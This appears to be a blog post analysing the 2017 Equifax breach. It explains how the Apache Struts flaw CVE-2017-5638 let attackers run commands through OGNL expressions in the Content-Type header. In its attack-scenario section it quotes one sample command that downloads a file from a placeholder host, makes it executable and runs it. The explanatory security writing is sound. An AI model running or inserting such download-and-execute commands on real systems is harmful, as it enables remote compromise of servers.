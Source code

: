 ```yaml
---
layout: post
comments: true
title:  "The Equifax Breach"
excerpt: "A Comprehensive Investigation of the Equifax Security Incident."
date:   2017-11-07 11:00:00
mathjax: false
---
```


## The Breach

On Sept 7, Equifax, one of the three biggest credit monitoring companies, announced a major data breach. Hackers broke into the company’s database and stole private information from 143 million people, nearly half of the adult population in America (Thomas, 2017).
This is not the first major data breach in America. In 2013, information from one billion accounts was compromised during a cyber-attack on Yahoo. In 2014, at Yahoo again, another 500 million passwords and account information were exposed (Yahoo breaches n.d.).
However, the Equifax breach is one of the worst of its kind. Because the information exposed is highly sensitive, including names, birthdays, addresses, social security numbers and even driver’s license numbers (Thomas, 2017). Fraudsters dream of exactly this type of information. They will be able to apply for credit cards and open bank accounts in another person’s name. In the worst scenario, they can print fake IDs and commit crimes using other people’s identities. Many customers became victims without having heard of Equifax. Yet Equifax holds a full set of credit information about them and maintains this information so poorly.

The specific vulnerability of this breach lay in Apache Struts, a widely used framework for building web applications. Equifax uses Apache Struts to build its website server. Early in 2017, Apache Struts was found vulnerable to remote command execution (RCE). The flaw was labeled CVE 2017-5638 and soon patched on March 06 (Thomas, 2017). A simple software update will keep websites away from this kind of attack.

Surprisingly, as a company carrying so much sensitive information, Equifax ignored the important patch. They said that this breach on their website began in mid-May, two months later after the patch was available (Goodin, 2017). Actually, since the publication of the patch, the flaw has been widely discussed and analyzed. Demonstration exploits are available on Github. Even nonexperts are able to download example code and perform RCE attack on websites using unpatched Apache Struts. Unfortunately, Equifax is one such site. It was like a fat rabbit striding in a dangerous woods that finally caught the attention of a hungry predator.

## The Attack Scenario

When a client sends an HTTP request to a server running Apache Struts, a content-type specification is passed along with this request. If the content-type is not valid, an exception will be raised. Then a function named “LocalizedTextUtil.findText” will be called. It will use the invalid content-type to build error message for clients. During the process, the function will evaluate the supplied message. Anything within ${...} in this message will be evaluated as an Object Graph Navigation Library (OGNL) expression. If the OGNL expression is a function call, this expression will be executed (Sahu, 2017).

If a content-type message is deliberately made up by an attacker, evaluation of this message as OGNL expression will enable the attacker to execute any commands on servers. To make matters worse, attackers can redirect outputs of executions to the feedback to them. In this way, they can see results of executions and do further damage, for example, locating and transferring critical data (Sahu, 2017). A typical RCE attack is to download and run malicious files on host machines. (As illustrated by the code follows.)

```
#cmds=({'wget –c http://www.xxx.com/fileX; chmod 777 fileX;./fileX;'})
```

The flaw was patched by disabling the use of “LocalizedTextUtil.findText” function. Although it was patched on March 6, many websites didn’t get updates in time. Shortly after the update was available, the number of attacks exploiting this bug grew dramatically (Goodin, 2017). It seemed that many attackers were not aware of the bug until it was officially announced. And they reacted to it more quickly than programmers maintaining those vulnerable websites, if there were any maintainer at all.

<div class="imgcap">
<img src="/assets/attack_timeline.png">
<div class="thecap">CVE-2017-5638 Exploitations Attempts (Goodin, 2017)</div>
</div>


## Security Flaw Summary

During this incident, three things are noticeable. The first is the execution of content-type message. The content-type messages are essentially strings from users. They are not expected to be and should never be executed. Second, the OGNL expressions make it very convenient to manipulate Java objects. Meanwhile, they bring a number of vulnerabilities to the Struts framework (Munoz, 2014), the building block of numerous websites around the world. At last, the breach would not have happened without the failure to patch a two-month-old flaw. It is hard to imagine that such a company as Equifax is so ignorant of security.

## Bibliography

[1] Goodin, D. (2017, Sept 13). Failure to patch two-month-old bug led to massive Equifax breach. Ars Technica. Retrieved from https://arstechnica.com

[2] Goodin, D. (2017, March 14). In-the-wild exploits ramp up against high-impact sites using Apache Struts. Ars Technica. Retrieved from https://arstechnica.com

[3] Munoz, A. (2014, Jan 14). Struts 2: OGNL Expression Injections. Micro Focus. Retrieved from https://community.saas.hpe.com

[4] Thomas, Fox. (2017, Sept 14). How Hackers Broke Equifax: Exploiting a Patchable Vulnerability Forbes. Retrieved from https://www.forbes.com

[5] Sahu, S. (2017, March 3). CVE-2017-5638: Apache Struts 2 Vulnerability Leads to Remote Code Execution. Trend Micro. Retrieved from http://blog.trendmicro.com/

[6] Yahoo breaches. (n.d.). Wikipedia. Retrieved September 26, 2017, from https://en.wikipedia.org/wiki
/Yahoo!_data_breaches
